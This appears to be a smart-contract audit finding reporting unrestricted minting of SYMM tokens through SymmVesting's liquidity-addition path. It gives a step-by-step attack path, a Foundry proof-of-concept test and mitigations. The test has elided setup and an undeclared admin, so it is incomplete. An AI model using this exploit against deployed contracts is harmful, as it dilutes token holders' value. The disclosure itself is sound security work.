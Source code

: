 Digital Mocha Owl

Medium

# [Medium] Unrestricted Minting of SYMM Tokens

### Summary

The lack of access control in the minting function will cause an uncontrolled inflation of token supply for all SYMM holders as users with vesting plans will trigger arbitrary minting through the liquidity addition process

### Root Cause

In contracts/vesting/SymmVesting.sol: the _mintTokenIfPossible function allows unrestricted minting of SYMM tokens without proper verification that the tokens represent actual transferred assets:
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/SymmVesting.sol#L258-L260

### Internal Pre-conditions

1. User needs to have a vesting plan with locked SYMM tokens in the SymmVesting contract
2. Contract needs to have insufficient SYMM balance compared to the requested operation amount
3. The specific implementation of _ensureSufficientBalance needs to call _mintTokenIfPossible when balance is insufficient

### External Pre-conditions

SYMM token must be configured to allow minting by the SymmVesting contract

### Attack Path

1. User (Alice) establishes a vesting plan with 1,000,000 locked SYMM tokens in the vesting contract
2. The SymmVesting contract has zero or insufficient SYMM tokens on hand (much less than 1,000,000)
3. Alice calls `addLiquidity(1,000,000, 0, 1e9)` to use her locked tokens
4. Inside the process, `_ensureSufficientBalance` detects the contract doesn't have enough SYMM
5. The contract mints 1,000,000 new SYMM tokens to itself through _mintTokenIfPossible
6. The liquidity addition completes using newly minted tokens rather than pre-existing tokens
7. Alice's vesting records are updated, but the total SYMM supply has now increased by 1,000,000

### Impact

The protocol suffers from uncontrolled token inflation beyond intended supply caps. All token holders experience value dilution as new tokens are minted without corresponding asset backing. The attacker gains LP tokens backed by newly minted tokens rather than pre-existing ones.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.18;

import "forge-std/Test.sol";
import "../contracts/vesting/SymmVesting.sol";
import "../contracts/vesting/interfaces/IMintableERC20.sol";

contract MintingExploitTest is Test {
    SymmVesting vestingContract;
    address alice = address(0x1);
    
    function setUp() public {
        // Setup contracts and initialize with proper addresses
        // ...
        
        // Setup vesting plan for Alice with 1,000,000 locked SYMM
        address[] memory users = new address[](1);
        users[0] = alice;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 1_000_000 * 1e18; // 1M SYMM
        
        vm.startPrank(admin);
        vestingContract._setupVestingPlans(
            vestingContract.SYMM(),
            block.timestamp,
            block.timestamp + 365 days,
            users,
            amounts
        );
        vm.stopPrank();
    }
    
    function testUnrestrictedMinting() public {
        // Track initial SYMM supply
        uint256 initialSupply = IMintableERC20(vestingContract.SYMM()).totalSupply();
        
        // Verify contract has no SYMM balance
        assertEq(IERC20(vestingContract.SYMM()).balanceOf(address(vestingContract)), 0);
        
        // Alice adds liquidity using her locked tokens
        vm.startPrank(alice);
        vestingContract.addLiquidity(1_000_000 * 1e18, 0, 1e30);
        vm.stopPrank();
        
        // Verify new tokens were minted
        uint256 newSupply = IMintableERC20(vestingContract.SYMM()).totalSupply();
        assertGt(newSupply, initialSupply);
        assertEq(newSupply - initialSupply, 1_000_000 * 1e18);
    }
}
```

### Mitigation

1. Implement access control on the minting function, restricting it to administrative roles only
2. Ensure vesting plans are only created when actual tokens have been transferred to the contract
3. Verify contract balances match vesting records before allowing operations like liquidity provision
4. Implement supply caps to prevent unlimited minting
5. Change the design to ensure tokens are transferred from external wallets before being considered "locked" in vesting plans